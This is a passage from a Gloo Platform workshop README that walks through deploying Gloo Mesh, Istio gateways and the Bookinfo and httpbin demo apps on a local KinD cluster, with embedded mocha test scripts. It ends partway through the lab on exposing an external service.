

<!--bash
#!/usr/bin/env bash

source ./scripts/assert.sh
-->


# <center>Gloo Platform Workshop</center>


## Table of Contents
* [Introduction](#introduction)
* [Lab 1 - Deploy a KinD cluster](#lab-1---deploy-a-kind-cluster-)
* [Lab 2 - Deploy and register Gloo Mesh](#lab-2---deploy-and-register-gloo-mesh-)
* [Lab 3 - Deploy the Bookinfo demo app](#lab-3---deploy-the-bookinfo-demo-app-)
* [Lab 4 - Deploy the httpbin demo app](#lab-4---deploy-the-httpbin-demo-app-)
* [Lab 5 - Create the gateways workspace](#lab-5---create-the-gateways-workspace-)
* [Lab 6 - Create the bookinfo workspace](#lab-6---create-the-bookinfo-workspace-)
* [Lab 7 - Expose the productpage through a gateway](#lab-7---expose-the-productpage-through-a-gateway-)
* [Lab 8 - Create the httpbin workspace](#lab-8---create-the-httpbin-workspace-)
* [Lab 9 - Expose an external service](#lab-9---expose-an-external-service-)
* [Lab 10 - Deploy Keycloak](#lab-10---deploy-keycloak-)
* [Lab 11 - Securing the access with OAuth](#lab-11---securing-the-access-with-oauth-)
* [Lab 12 - Use the JWT filter to create headers from claims](#lab-12---use-the-jwt-filter-to-create-headers-from-claims-)
* [Lab 13 - Use the transformation filter to manipulate headers](#lab-13---use-the-transformation-filter-to-manipulate-headers-)
* [Lab 14 - Apply rate limiting to the Gateway](#lab-14---apply-rate-limiting-to-the-gateway-)
* [Lab 15 - Use the Web Application Firewall filter](#lab-15---use-the-web-application-firewall-filter-)
* [Lab 16 - Expose the bookinfo application through GraphQL](#lab-16---expose-the-bookinfo-application-through-graphql-)


## Introduction <a name="introduction"></a>

[Gloo Mesh Enterprise](https://www.solo.io/products/gloo-mesh/) is a management plane which makes it easy to operate [Istio](https://istio.io) on one or many Kubernetes clusters deployed anywhere (any platform, anywhere).

### Istio support

The Gloo Mesh Enterprise subscription includes end to end Istio support:

- Upstream first
- Specialty builds available (FIPS, ARM, etc)
- Long Term Support (LTS) N-4 
- Critical security patches
- Production break-fix
- One hour SLA Severity 1
- Install / upgrade
- Architecture and operational guidance, best practices

### Gloo Mesh overview

Gloo Mesh provides many unique features, including:

- multi-tenancy based on global workspaces
- zero trust enforcement
- global observability (centralized metrics and access logging)
- simplified cross cluster communications (using virtual destinations)
- advanced gateway capabilities (oauth, jwt, transformations, rate limiting, web application firewall, ...)


### Want to learn more about Gloo Mesh

You can find more information about Gloo Mesh in the official documentation:

[https://docs.solo.io/gloo-mesh/latest/](https://docs.solo.io/gloo-mesh/latest/)


## Lab 1 - Deploy a KinD cluster <a name="lab-1---deploy-a-kind-cluster-"></a>


Clone this repository and go to the directory where this `README.md` file is.

Set the context environment variables:

```bash
export MGMT=cluster1
export CLUSTER1=cluster1
```

Run the following commands to deploy a Kubernetes cluster using [Kind](https://kind.sigs.k8s.io/):
    

```bash
./scripts/deploy.sh 1 cluster1 us-west us-west-1
```

Then run the following commands to wait for all the Pods to be ready:

```bash
./scripts/check.sh cluster1
```

**Note:** If you run the `check.sh` script immediately after the `deploy.sh` script, you may see a jsonpath error. If that happens, simply wait a few seconds and try again.

Once the `check.sh` script completes, when you execute the `kubectl get pods -A` command, you should see the following:

```
NAMESPACE            NAME                                          READY   STATUS    RESTARTS   AGE
kube-system          calico-kube-controllers-59d85c5c84-sbk4k      1/1     Running   0          4h26m
kube-system          calico-node-przxs                             1/1     Running   0          4h26m
kube-system          coredns-6955765f44-ln8f5                      1/1     Running   0          4h26m
kube-system          coredns-6955765f44-s7xxx                      1/1     Running   0          4h26m
kube-system          etcd-cluster1-control-plane                   1/1     Running   0          4h27m
kube-system          kube-apiserver-cluster1-control-plane         1/1     Running   0          4h27m
kube-system          kube-controller-manager-cluster1-control-plane1/1     Running   0          4h27m
kube-system          kube-proxy-ksvzw                              1/1     Running   0          4h26m
kube-system          kube-scheduler-cluster1-control-plane         1/1     Running   0          4h27m
local-path-storage   local-path-provisioner-58f6947c7-lfmdx        1/1     Running   0          4h26m
metallb-system       controller-5c9894b5cd-cn9x2                   1/1     Running   0          4h26m
metallb-system       speaker-d7jkp                                 1/1     Running   0          4h26m
```


## Lab 2 - Deploy and register Gloo Mesh <a name="lab-2---deploy-and-register-gloo-mesh-"></a>
[](https://youtu.be/djfFiepK4GY "Video Link")


First of all, let's install the `meshctl` CLI:

```bash
export GLOO_MESH_VERSION=v2.3.5
curl -sL https://run.solo.io/meshctl/install | sh -
export PATH=$HOME/.gloo-mesh/bin:$PATH
```

Run the following commands to deploy the Gloo Mesh management plane:

<!--bash
cat <<'EOF' > ./test.js
var chai = require('chai');
var expect = chai.expect;

describe("Required environment variables should contain value", () => {
  afterEach(function(done){
    if(this.currentTest.currentRetry() > 0){
      process.stdout.write(".");
       setTimeout(done, 1000);
    } else {
      done();
    }
  });

  it("Context environment variables should not be empty", () => {
    expect(process.env.MGMT).to.not.be.empty
    expect(process.env.CLUSTER1).to.not.be.empty
  });

  it("Gloo Mesh licence environment variables should not be empty", () => {
    expect(process.env.GLOO_MESH_LICENSE_KEY).to.not.be.empty
  });
});
EOF
echo "executing test dist/gloo-mesh-2-0-gateway-standalone/build/templates/steps/deploy-and-register-gloo-mesh/tests/environment-variables.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

```bash
helm repo add gloo-platform https://storage.googleapis.com/gloo-platform/helm-charts
helm repo update
kubectl --context ${MGMT} create ns gloo-mesh
kubectl --context ${MGMT} create ns gloo-mesh-addons
helm upgrade --install gloo-platform-crds gloo-platform/gloo-platform-crds \
--namespace gloo-mesh \
--kube-context ${MGMT} \
--version=2.3.5
helm upgrade --install gloo-platform gloo-platform/gloo-platform \
--namespace gloo-mesh \
--kube-context ${MGMT} \
--version=2.3.5 \
 -f -<<EOF
licensing:
  licenseKey: ${GLOO_MESH_LICENSE_KEY}
common:
  cluster: cluster1
glooMgmtServer:
  enabled: true
  ports:
    healthcheck: 8091
  registerCluster: true
prometheus:
  enabled: true
redis:
  deployment:
    enabled: true
telemetryGateway:
  enabled: true
  service:
    type: LoadBalancer
glooUi:
  enabled: true
  serviceType: LoadBalancer
extAuthService:
  enabled: true
  extAuth: 
    apiKeyStorage: 
      name: redis
      enabled: true
      config: 
        connection: 
          host: redis.gloo-mesh-addons:6379
      secretKey: ThisIsSecret
rateLimiter:
  enabled: true
istioInstallations:
  enabled: true
  northSouthGateways:
    - enabled: true
      name: istio-ingressgateway
      installations:
        - clusters:
          - name: cluster1
            activeGateway: false
          gatewayRevision: auto
          istioOperatorSpec:
            hub: us-docker.pkg.dev/gloo-mesh/istio-workshops
            tag: 1.18.0-solo
            profile: empty
            components:
              ingressGateways:
                - name: istio-ingressgateway
                  namespace: istio-gateways
                  enabled: true
                  label:
                    istio: ingressgateway
glooAgent:
  enabled: true
  relay:
    serverAddress: gloo-mesh-mgmt-server:9900
    authority: gloo-mesh-mgmt-server.gloo-mesh
telemetryCollector:
  enabled: true
  config:
    exporters:
      otlp:
        endpoint: gloo-telemetry-gateway:4317
EOF
kubectl --context ${MGMT} -n gloo-mesh rollout status deploy/gloo-mesh-mgmt-server
kubectl --context ${MGMT} delete workspaces -A --all
until [[ $(kubectl --context ${MGMT} -n istio-gateways get deploy -o json | jq '[.items[].status.readyReplicas] | add') -ge 1 ]]; do
  sleep 1
done
```
<!--bash
kubectl --context ${MGMT} scale --replicas=0 -n gloo-mesh deploy/gloo-mesh-ui
kubectl --context ${MGMT} rollout status -n gloo-mesh deploy/gloo-mesh-ui
-->
<!--bash
kubectl wait --context ${MGMT} --for=condition=Ready -n gloo-mesh --all pod
until [[ $(kubectl --context ${MGMT} -n gloo-mesh get svc gloo-mesh-mgmt-server -o json | jq '.status.loadBalancer | length') -gt 0 ]]; do
  sleep 1
done
-->
For teams to setup external authentication, the gateways team needs to create and `ExtAuthServer` object they can reference.

Let's create the `ExtAuthServer` object: 

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: ExtAuthServer
metadata:
  name: ext-auth-server
  namespace: gloo-mesh-addons
spec:
  destinationServer:
    ref:
      cluster: cluster1
      name: ext-auth-service
      namespace: gloo-mesh-addons
    port:
      name: grpc
EOF
```

For teams to setup rate limiting, the gateways team needs to create and `RateLimitServerSettings` object they can reference.

Let's create the `RateLimitServerSettings` object:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: RateLimitServerSettings
metadata:
  name: rate-limit-server
  namespace: gloo-mesh-addons
spec:
  destinationServer:
    ref:
      cluster: cluster1
      name: rate-limiter
      namespace: gloo-mesh-addons
    port:
      name: grpc
EOF
```

Set the environment variable for the service corresponding to the Istio Ingress Gateway of the cluster(s):

```bash
export ENDPOINT_HTTP_GW_CLUSTER1=$(kubectl --context ${CLUSTER1} -n istio-gateways get svc -l istio=ingressgateway -o jsonpath='{.items[].status.loadBalancer.ingress[0].*}'):80
export ENDPOINT_HTTPS_GW_CLUSTER1=$(kubectl --context ${CLUSTER1} -n istio-gateways get svc -l istio=ingressgateway -o jsonpath='{.items[].status.loadBalancer.ingress[0].*}'):443
export HOST_GW_CLUSTER1=$(echo ${ENDPOINT_HTTP_GW_CLUSTER1} | cut -d: -f1)
```


## Lab 3 - Deploy the Bookinfo demo app <a name="lab-3---deploy-the-bookinfo-demo-app-"></a>
[](https://youtu.be/nzYcrjalY5A "Video Link")

We're going to deploy the bookinfo application to demonstrate several features of Gloo Mesh.

You can find more information about this application [here](https://istio.io/latest/docs/examples/bookinfo/).

Run the following commands to deploy the bookinfo application on `cluster1`:

```bash
curl https://raw.githubusercontent.com/istio/istio/release-1.16/samples/bookinfo/platform/kube/bookinfo.yaml > bookinfo.yaml

kubectl --context ${CLUSTER1} create ns bookinfo-frontends
kubectl --context ${CLUSTER1} create ns bookinfo-backends
# deploy the frontend bookinfo service in the bookinfo-frontends namespace
kubectl --context ${CLUSTER1} -n bookinfo-frontends apply -f bookinfo.yaml -l 'account in (productpage)'
kubectl --context ${CLUSTER1} -n bookinfo-frontends apply -f bookinfo.yaml -l 'app in (productpage)'
kubectl --context ${CLUSTER1} -n bookinfo-backends apply -f bookinfo.yaml -l 'account in (reviews,ratings,details)'
# deploy the backend bookinfo services in the bookinfo-backends namespace for all versions less than v3
kubectl --context ${CLUSTER1} -n bookinfo-backends apply -f bookinfo.yaml -l 'app in (reviews,ratings,details),version notin (v3)'
# Update the productpage deployment to set the environment variables to define where the backend services are running
kubectl --context ${CLUSTER1} -n bookinfo-frontends set env deploy/productpage-v1 DETAILS_HOSTNAME=details.bookinfo-backends.svc.cluster.local
kubectl --context ${CLUSTER1} -n bookinfo-frontends set env deploy/productpage-v1 REVIEWS_HOSTNAME=reviews.bookinfo-backends.svc.cluster.local
# Update the reviews service to display where it is coming from
kubectl --context ${CLUSTER1} -n bookinfo-backends set env deploy/reviews-v1 CLUSTER_NAME=${CLUSTER1}
kubectl --context ${CLUSTER1} -n bookinfo-backends set env deploy/reviews-v2 CLUSTER_NAME=${CLUSTER1}
```


<!--bash
until [[ $(kubectl --context ${CLUSTER1} -n bookinfo-frontends get deploy -o json | jq '[.items[].status.readyReplicas] | add') -eq 1 ]]; do
  sleep 1
done
until [[ $(kubectl --context ${CLUSTER1} -n bookinfo-backends get deploy -o json | jq '[.items[].status.readyReplicas] | add') -eq 4 ]]; do
  sleep 1
done
-->

You can check that the app is running using the following command:

```
kubectl --context ${CLUSTER1} -n bookinfo-frontends get pods && kubectl --context ${CLUSTER1} -n bookinfo-backends get pods
```

Note that we deployed the `productpage` service in the `bookinfo-frontends` namespace and the other services in the `bookinfo-backends` namespace.

And we deployed the `v1` and `v2` versions of the `reviews` microservice, not the `v3` version.

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("Bookinfo app", () => {
  let cluster = process.env.CLUSTER1
  let deployments = ["productpage-v1"];
  deployments.forEach(deploy => {
    it(deploy + ' pods are ready in ' + cluster, () => helpers.checkDeployment({ context: cluster, namespace: "bookinfo-frontends", k8sObj: deploy }));
  });
  deployments = ["ratings-v1", "details-v1", "reviews-v1", "reviews-v2"];
  deployments.forEach(deploy => {
    it(deploy + ' pods are ready in ' + cluster, () => helpers.checkDeployment({ context: cluster, namespace: "bookinfo-backends", k8sObj: deploy }));
  });
});
EOF
echo "executing test dist/gloo-mesh-2-0-gateway-standalone/build/templates/steps/apps/bookinfo/deploy-bookinfo/tests/check-bookinfo.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->


## Lab 4 - Deploy the httpbin demo app <a name="lab-4---deploy-the-httpbin-demo-app-"></a>
[](https://youtu.be/w1xB-o_gHs0 "Video Link")

We're going to deploy the httpbin application to demonstrate several features of Gloo Mesh.

You can find more information about this application [here](http://httpbin.org/).


Run the following commands to deploy the httpbin app on `cluster1`. The deployment will be called `not-in-mesh` and won't have the sidecar injected (because we don't label the namespace).

```bash
kubectl --context ${CLUSTER1} create ns httpbin
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: v1
kind: ServiceAccount
metadata:
  name: not-in-mesh
  namespace: httpbin
---
apiVersion: v1
kind: Service
metadata:
  name: not-in-mesh
  namespace: httpbin
  labels:
    app: not-in-mesh
    service: not-in-mesh
spec:
  ports:
  - name: http
    port: 8000
    targetPort: 80
  selector:
    app: not-in-mesh
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: not-in-mesh
  namespace: httpbin
spec:
  replicas: 1
  selector:
    matchLabels:
      app: not-in-mesh
      version: v1
  template:
    metadata:
      labels:
        app: not-in-mesh
        version: v1
    spec:
      serviceAccountName: not-in-mesh
      containers:
      - image: docker.io/kennethreitz/httpbin
        imagePullPolicy: IfNotPresent
        name: not-in-mesh
        ports:
        - containerPort: 80
EOF
```


You can follow the progress using the following command:

```
kubectl --context ${CLUSTER1} -n httpbin get pods
```

```
NAME                           READY   STATUS    RESTARTS   AGE
not-in-mesh-5c64bb49cd-m9kwm   1/1     Running   0          11s
```
<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("httpbin app", () => {
  let cluster = process.env.CLUSTER1
  
  let deployments = ["not-in-mesh"];
  
  deployments.forEach(deploy => {
    it(deploy + ' pods are ready in ' + cluster, () => helpers.checkDeployment({ context: cluster, namespace: "httpbin", k8sObj: deploy }));
  });
});
EOF
echo "executing test dist/gloo-mesh-2-0-gateway-standalone/build/templates/steps/apps/httpbin/deploy-httpbin/tests/check-httpbin.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->


## Lab 5 - Create the gateways workspace <a name="lab-5---create-the-gateways-workspace-"></a>
[](https://youtu.be/QeVBH0eswWw "Video Link")

We're going to create a workspace for the team in charge of the Gateways.

The platform team needs to create the corresponding `Workspace` Kubernetes objects in the Gloo Mesh management cluster.

Let's create the `gateways` workspace which corresponds to the `istio-gateways` and the `gloo-mesh-addons` namespaces on the cluster(s):

```bash
kubectl apply --context ${MGMT} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: Workspace
metadata:
  name: gateways
  namespace: gloo-mesh
spec:
  workloadClusters:
  - name: cluster1
    namespaces:
    - name: istio-gateways
    - name: gloo-mesh-addons
EOF
```

Then, the Gateway team creates a `WorkspaceSettings` Kubernetes object in one of the namespaces of the `gateways` workspace (so the `istio-gateways` or the `gloo-mesh-addons` namespace):

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: WorkspaceSettings
metadata:
  name: gateways
  namespace: istio-gateways
spec:
  importFrom:
  - workspaces:
    - selector:
        allow_ingress: "true"
    resources:
    - kind: SERVICE
    - kind: ALL
      labels:
        expose: "true"
  exportTo:
  - workspaces:
    - selector:
        allow_ingress: "true"
    resources:
    - kind: SERVICE
EOF
```

The Gateway team has decided to import the following from the workspaces that have the label `allow_ingress` set to `true` (using a selector):
- all the Kubernetes services exported by these workspaces
- all the resources (RouteTables, VirtualDestination, ...) exported by these workspaces that have the label `expose` set to `true`


## Lab 6 - Create the bookinfo workspace <a name="lab-6---create-the-bookinfo-workspace-"></a>

We're going to create a workspace for the team in charge of the Bookinfo application.

The platform team needs to create the corresponding `Workspace` Kubernetes objects in the Gloo Mesh management cluster.

Let's create the `bookinfo` workspace which corresponds to the `bookinfo-frontends` and `bookinfo-backends` namespaces on the cluster(s):

```bash
kubectl apply --context ${MGMT} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: Workspace
metadata:
  name: bookinfo
  namespace: gloo-mesh
  labels:
    allow_ingress: "true"
spec:
  workloadClusters:
  - name: cluster1
    namespaces:
    - name: bookinfo-frontends
    - name: bookinfo-backends
EOF
```

Then, the Bookinfo team creates a `WorkspaceSettings` Kubernetes object in one of the namespaces of the `bookinfo` workspace (so the `bookinfo-frontends` or the `bookinfo-backends` namespace):

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: WorkspaceSettings
metadata:
  name: bookinfo
  namespace: bookinfo-frontends
spec:
  importFrom:
  - workspaces:
    - name: gateways
    resources:
    - kind: SERVICE
  exportTo:
  - workspaces:
    - name: gateways
    resources:
    - kind: SERVICE
      labels:
        app: productpage
    - kind: SERVICE
      labels:
        app: reviews
    - kind: ALL
      labels:
        expose: "true"
EOF
```

The Bookinfo team has decided to export the following to the `gateway` workspace (using a reference):
- the `productpage` and the `reviews` Kubernetes services
- all the resources (RouteTables, VirtualDestination, ...) that have the label `expose` set to `true`

This is how the environment looks like with the workspaces:


## Lab 7 - Expose the productpage through a gateway <a name="lab-7---expose-the-productpage-through-a-gateway-"></a>
[](https://youtu.be/emyIu99AOOA "Video Link")

In this step, we're going to expose the `productpage` service through the Ingress Gateway using Gloo Mesh.

The Gateway team must create a `VirtualGateway` to configure the Istio Ingress Gateway in cluster1 to listen to incoming requests.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: VirtualGateway
metadata:
  name: north-south-gw
  namespace: istio-gateways
spec:
  workloads:
    - selector:
        labels:
          istio: ingressgateway
        cluster: cluster1
  listeners: 
    - http: {}
      port:
        number: 80
      allowedRouteTables:
        - host: '*'
EOF

```

Then, the Gateway team should create a parent `RouteTable` to configure the main routing.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: main
  namespace: istio-gateways
spec:
  hosts:
    - '*'
  virtualGateways:
    - name: north-south-gw
      namespace: istio-gateways
      cluster: cluster1
  workloadSelectors: []
  http:
    - name: root
      matchers:
      - uri:
          prefix: /
      delegate:
        routeTables:
          - labels:
              expose: "true"
        sortMethod: ROUTE_SPECIFICITY
EOF
```

In this example, you can see that the Gateway team is delegating the routing details to the `bookinfo` and `httpbin` workspaces. The teams in charge of these workspaces can expose their services through the gateway.

The Gateway team can use this main `RouteTable` to enforce a global WAF policy, but also to have control on which hostnames and paths can be used by each application team.

Then, the Bookinfo team can create a `RouteTable` to determine how they want to handle the traffic.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: productpage
  namespace: bookinfo-frontends
  labels:
    expose: "true"
spec:
  http:
    - name: productpage
      matchers:
      - uri:
          exact: /productpage
      - uri:
          prefix: /static
      - uri:
          prefix: /api/v1/products
      forwardTo:
        destinations:
          - ref:
              name: productpage
              namespace: bookinfo-frontends
              cluster: cluster1
            port:
              number: 9080
EOF
```

You should now be able to access the `productpage` application through the browser.

Get the URL to access the `productpage` service using the following command:
```
echo "http://${ENDPOINT_HTTP_GW_CLUSTER1}/productpage"
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-http');

describe("Productpage is available (HTTP)", () => {
  it('/productpage is available in cluster1', () => helpers.checkURL({ host: 'http://' + process.env.ENDPOINT_HTTP_GW_CLUSTER1, path: '/productpage', retCode: 200 }));
})
EOF
echo "executing test dist/gloo-mesh-2-0-gateway-standalone/build/templates/steps/apps/bookinfo/gateway-expose/tests/productpage-available.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

Gloo Mesh translates the `VirtualGateway` and `RouteTable` into the corresponding Istio objects (`Gateway` and `VirtualService`).

Now, let's secure the access through TLS.

Let's first create a private key and a self-signed certificate:

```bash
openssl req -x509 -nodes -days 365 -newkey rsa:2048 \
   -keyout tls.key -out tls.crt -subj "/CN=*"
```

Then, you have to store them in a Kubernetes secrets running the following commands:

```bash
kubectl --context ${CLUSTER1} -n istio-gateways create secret generic tls-secret \
--from-file=tls.key=tls.key \
--from-file=tls.crt=tls.crt
```

Finally, the Gateway team needs to update the `VirtualGateway` to use this secret:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: VirtualGateway
metadata:
  name: north-south-gw
  namespace: istio-gateways
spec:
  workloads:
    - selector:
        labels:
          istio: ingressgateway
        cluster: cluster1
  listeners: 
    - http: {}
      port:
        number: 80
# ---------------- Redirect to https --------------------
      httpsRedirect: true
# -------------------------------------------------------
    - http: {}
# ---------------- SSL config ---------------------------
      port:
        number: 443
      tls:
        mode: SIMPLE
        secretName: tls-secret
# -------------------------------------------------------
      allowedRouteTables:
        - host: '*'
EOF
```

You can now access the `productpage` application securely through the browser.
Get the URL to access the `productpage` service using the following command:
```
echo "https://${ENDPOINT_HTTPS_GW_CLUSTER1}/productpage"
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-http');

describe("Productpage is available (HTTPS)", () => {
  it('/productpage is available in cluster1', () => helpers.checkURL({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/productpage', retCode: 200 }));
})
EOF
echo "executing test dist/gloo-mesh-2-0-gateway-standalone/build/templates/steps/apps/bookinfo/gateway-expose/tests/productpage-available-secure.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->
<!--bash
cat <<'EOF' > ./test.js
var chai = require('chai');
var expect = chai.expect;
const helpers = require('./tests/chai-exec');

describe("Otel metrics", () => {
  it("cluster1 is sending metrics to telemetryGateway", () => {
    podName = helpers.getOutputForCommand({ command: "kubectl -n gloo-mesh get pods -l app=prometheus -o jsonpath='{.items[0].metadata.name}' --context " + process.env.MGMT }).replaceAll("'", "");
    command = helpers.getOutputForCommand({ command: "kubectl --context " + process.env.MGMT + " -n gloo-mesh debug -q -i " + podName + " --image=curlimages/curl -- curl -s http://localhost:9090/api/v1/query?query=istio_requests_total" }).replaceAll("'", "");
    expect(command).to.contain("cluster\":\"cluster1");
  });
});


EOF
echo "executing test dist/gloo-mesh-2-0-gateway-standalone/build/templates/steps/apps/bookinfo/gateway-expose/tests/otel-metrics.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

This diagram shows the flow of the request (through the Istio Ingress Gateway):


## Lab 8 - Create the httpbin workspace <a name="lab-8---create-the-httpbin-workspace-"></a>

We're going to create a workspace for the team in charge of the httpbin application.

The platform team needs to create the corresponding `Workspace` Kubernetes objects in the Gloo Mesh management cluster.

Let's create the `httpbin` workspace which corresponds to the `httpbin` namespace on `cluster1`:

```bash
kubectl apply --context ${MGMT} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: Workspace
metadata:
  name: httpbin
  namespace: gloo-mesh
  labels:
    allow_ingress: "true"
spec:
  workloadClusters:
  - name: cluster1
    namespaces:
    - name: httpbin
EOF
```

Then, the Httpbin team creates a `WorkspaceSettings` Kubernetes object in one of the namespaces of the `httpbin` workspace:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: WorkspaceSettings
metadata:
  name: httpbin
  namespace: httpbin
spec:
  importFrom:
  - workspaces:
    - name: gateways
    resources:
    - kind: SERVICE
  exportTo:
  - workspaces:
    - name: gateways
    resources:
    - kind: SERVICE
      labels:
        app: not-in-mesh
    - kind: ALL
      labels:
        expose: "true"
EOF
```

The Httpbin team has decided to export the following to the `gateway` workspace (using a reference):
- the `not-in-mesh` Kubernetes service
- all the resources (RouteTables, VirtualDestination, ...) that have the label `expose` set to `true`


## Lab 9 - Expose an external service <a name="lab-9---expose-an-external-service-"></a>
[](https://youtu.be/jEqDoITpRss "Video Link")

In this step, we're going to expose an external service through a Gateway using Gloo Mesh and show how we can then migrate this service to the Mesh.

Let's create an `ExternalService` corresponding to `httpbin.org`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: ExternalService
metadata:
  name: httpbin
  namespace: httpbin
  labels:
    expose: "true"
spec:
  hosts:
  - httpbin.org
  ports:
  - name: http
    number: 80
    protocol: HTTP
  - name: https
    number: 443
    protocol: HTTPS
    clientsideTls: {}
EOF
```

Now, you can create a `RouteTable` to expose `httpbin.org` through the gateway:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: httpbin
  namespace: httpbin
  labels:
    expose: "true"
spec:
  http:
    - name: httpbin
      matchers:
      - uri:
          exact: /get
      forwardTo:
        destinations:
        - kind: EXTERNAL_SERVICE
          port:
            number: 443
          ref:
            name: httpbin
            namespace: httpbin
EOF
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("httpbin from the external service", () => {
  it('Checking text \'X-Amzn-Trace-Id\' in ' + process.env.CLUSTER1, () => helpersHttp.checkBody({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/get', body: 'X-Amzn-Trace-Id', match: true }));
})
EOF
echo "executing test dist/gloo-mesh-2-0-gateway-standalone/build/templates/steps/apps/httpbin/gateway-external-service/tests/httpbin-from-external.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

You should now be able to access `httpbin.org` external service through the gateway.

Get the URL to access the `httpbin` service using the following command:
```
echo "https://${ENDPOINT_HTTPS_GW_CLUSTER1}/get"
```

Let's update the `RouteTable` to direct 50% of the traffic to the local `httpbin` service:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: httpbin
  namespace: httpbin
  labels:
    expose: "true"
spec:
  http:
    - name: httpbin
      matchers:
      - uri:
          exact: /get
      forwardTo:
        destinations:
        - kind: EXTERNAL_SERVICE
          port:
            number: 443
          ref:
            name: httpbin
            namespace: httpbin
          weight: 50
        - ref:
            name: not-in-mesh
            namespace: httpbin
            cluster: cluster1
          port:
            number: 8000
          weight: 50
EOF
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("httpbin from the local service", () => {
  it('Checking text \'X-Amzn-Trace-Id\' not in ' + process.env.CLUSTER1, () => helpersHttp.checkBody({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/get', body: 'X-Amzn-Trace-Id', match: false }));
})
EOF
